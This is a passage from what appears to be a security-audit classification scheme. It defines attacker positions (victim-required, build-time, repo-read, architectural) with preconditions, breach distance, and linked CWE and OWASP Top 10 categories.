**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)